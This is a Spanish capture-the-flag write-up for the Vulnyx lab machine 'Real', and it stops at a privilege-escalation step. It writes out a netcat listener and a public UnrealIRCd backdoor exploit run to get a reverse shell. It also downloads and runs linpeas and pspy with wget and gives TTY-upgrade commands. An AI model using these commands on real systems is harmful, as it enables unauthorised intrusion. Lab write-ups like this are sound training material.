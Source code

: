 #Reconocimiento
#Puerto80
#puerto6667
#reverseshell
#reverseshellpython
#escaladaPrivilegios

Herramients
[[Ping]]
[[NMAP]]
[[Gobuster]]
[[Tratamiento de la TTY]]

Mirror donwload: [Download - MEGA](https://mega.nz/file/FOZxHbKB#LLYTQBQLGLYTVdlMMJ27mLc23pGN0XjFlg4vgHvh5Qw)

![[Vulnyx - Real - Machine.png]]
## Reconocimiento en la red

![[Vulnyx - Real - Reconocimiento.png]]

IP Máquina  target: 192.168.1.140
## NMAP

![[Vulnyx - Real - Nmap discover.png]]
Obtenemos que el epuerto 80 y puerto 22 esán abiertos
Puerto 80 es el puerto para servicio web
Puerto 22 es el puerto de SSH
Puerto 6667  --irc
Puerto 6697  --irc-u
Puerto 8067  --infi-async

Vemos la web que encontramos:

## revision puerto 80


![[Vulnyx - Real - Apache 2 Debian default website.png]]
Web es la web de apache 2 por defecto
Hacemos Gobuster para intentar encontrar  diferentes rutas de la web (por si existe algo fuera del index)


![[Vulnyx - Real - Goobuster.png]]
Pero no encontramos nada
podemos seguir intentando fuzz y gobuster subdomains

De la web no sacamos nada
Pasamos al siguiente puerto 6667

 intentamos explotarlo con metaexploit:
 comandos 
 msfconsole
![[Vulnyx - Real - Msfconsole.png]]

y buscando un poco por internet vemos que es vulnerable con metaexploit: 
https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
vamos a intentar explotarlo según lo encontrado

![[Vulnyx - Real - Search Unreal.png]]


Use 2
![[Vulnyx - Real - Use2 msfconsole.png]]

Options
![[Vulnyx - Real - Options.png]]

set rhost = IP:
![[Vulnyx - Real - Set rhost.png]]

set rport  6667

![[Vulnyx - Real - Set report 6667.png]]

use exploit/unix/irc/unreal_ircd_3281_backdoor
![[Vulnyx - Real - Use exploit irc unreal.png]]

show payloads:
![[Vulnyx - Real - show payloads.png]]

set payload reverse:
![[Vulnyx - Real - Set pauload reverse.png]]

set lhosts = local IP:
![[Vulnyx - Real - Set lhost.png]]


exploit
![[Vulnyx - Real - Exploit.png]]
but No sessions was created.

Buscando un poco por internet encontramos el repo de github

https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

descargamos el exploit .py
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py

![[Vulnyx - Real - Descargar exploit del repo de github.png]]

Editamos el script en python para poner nuestra IP y el puerto con el que vamos a hacer el reverse proxy:
![[Vulnyx - Real - Script original.png]]


modificamos segun nuestras preferencias:
![[Vulnyx - Real - Config parameter.png]]

en este caso nuestra IP local y el puerto por el cual nos vamos a poner a la escucha que va a ser el 6666

ahora nos ponemos a la escucha en la terminal con  el comando:
nc -lvp 6666

![[Vulnyx - Real - Reverse shell en escucha.png]]

y una vez estamos escuchando por el puerto correcto lo que hacemos es ejecutar el scrip de python para conectar por el puerto 6667 y lanzar una reverse shell sobre nuestra IP por el puerto 6666
python3 exploit.py 192.168.1.140 6667 -payload netcat

![[Vulnyx - Real - Send exploit.png]]

y en la terminal que estamos a la escucha por el puerto 6666 recibimos la conexión:

![[Vulnyx - Real - Connection reverse proxy.png]]

Entramos con el usuario serve
![[Vulnyx - Real - Acceso con user serve vulnix real.png]]


intentamos movernos hasta home/serve  para ver si está la flag del usuario
y conseguimos la primera flag del usuario:
![[Vulnyx - Real - User server flag.png]]
user server flag: 3b7fb7c1c8737a5c67dc513657e3efb3


Comando id
![[Vulnyx - Real - Comando id para ver el usuario.png]]
Con el comando id vemos que el usuario es server 

vemos el passwd en /etc/passwd:
![[Vulnyx - Real - Passwd.png]]

server:x:1000:1000:server,,,:/home/server:/bin/bash
aquí vemos que el id de usuario es 1000 e identificador de grupo es 1000 --> Todos los que comienzan con 1000 en LINUX son usuarios

ahora vamos a hacer tratamiento de la TTI:


Tratamiento de la TTI
script /dev/null -c bash
CTRL + Z
stti raw -echo ; fg
reset
xterm
export TERM = xterm-256color
export SHELL = bash
stty -a

Descargamos linpeas:

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

le damos permisos de ejecucion al fichero .sh
chmod +x linpeas.sh
ejecutamos linpeas
./linpeas.sh

![[Vulnyx - Real - Linpeas.png]]

Pero no encontramos nada interesante

Usamos la herramient pspy:
https://github.com/DominicBreuker/pspy
url de descarga:
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

le damos permisos de ejecucion
chmod +x pspy64

lo ejecutamos
./pspy64
![[Vulnyx - Real - Pspy64.png]]

nos encontramos un fichero que se ejecuta como admisnitrador en /opt/Task
vemos ese fichero:
cat /opt/Task

